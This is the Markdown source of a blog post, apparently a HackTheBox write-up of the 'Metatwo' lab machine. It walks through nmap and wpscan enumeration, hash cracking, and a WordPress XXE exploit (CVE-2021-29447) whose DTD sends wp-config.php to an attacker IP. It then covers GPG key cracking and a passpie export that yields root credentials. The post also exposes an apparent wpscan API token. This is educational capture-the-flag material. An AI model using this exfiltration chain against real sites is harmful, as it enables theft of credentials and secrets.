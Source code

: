 ```yaml
---
layout: post
title: "Metatwo"
date: 2024-12-28
author: d0s3nt
categories: [Writeup, HackTheBox]
tags: [htb, writeup, security, web, linux, wordpress, privesc]
pin: true
math: true
mermaid: true
image:
  path: /assets/Hack-The-Box-logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


```bash
sudo nmap -sC -sV -p- -T4 -oN metatwo 10.10.11.186
```
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529153027.png)


we got ftp, http and ssh 

I tried ftp anonymous , but didn't lead us anywhere 

let's explore the port 80 

`wordpress` , I tried `admin:admin` but didn't help 
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529153402.png)

if we look around and we tried to read the source page of the wordpress files we will found the following 
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529153826.png)

if we google this plugin
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529153948.png)

![/home/user/myblog/_site](/assets/img/posts/Delivery/Pasted image 20240529154459.png)

![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529154537.png)let's crack them 

```bash
hashcat -a 0 -m 400 hashe --user --show
```

![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529160523.png)
we can  login as a manager 


I will use `wpscan` to enumerate wordpress
```bash
wpscan  --url http://metapress.htb --enumerate ap --api-token CvPFdrygDgoTsTqclRanY8Xdf0r5iyLSNIP > wpscan_enumerate_ap
```
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529160827.png)

I will use this https://github.com/0xRar/CVE-2021-29447-PoC but I will modifcate I litle 

in the evil.dtd 
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.4:80/index.php?content=%file;'>" >
```

this will get us file on `base64` we can use php script to decode it on index.php
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>

```


now let's upload the `payload.wav` 

and run our server
```php
php -S 0.0.0.0:80
```
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529161315.png)

http://metapress.htb/wp-admin/upload.php
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529161402.png)

on our php server 
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529161519.png)


we got ftp creds , after login I  find a file `send_email.php` and  ssh creds on it
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529161638.png)

![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529161705.png)

interesting directory![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240529161736.png)

![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529161815.png)

this utility used to store password and it encrypts them using the `.keys` 
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240529161911.png)

cracking the private key offline

```bash
gpg2john gpg > hashes 
```
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529162050.png)
```bash
john wordlist=/usr/share/wordlists/rockyou.txt hashes
```
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529162311.png)
```bash
passpie export root
``` 
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529162504.png)
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529162614.png)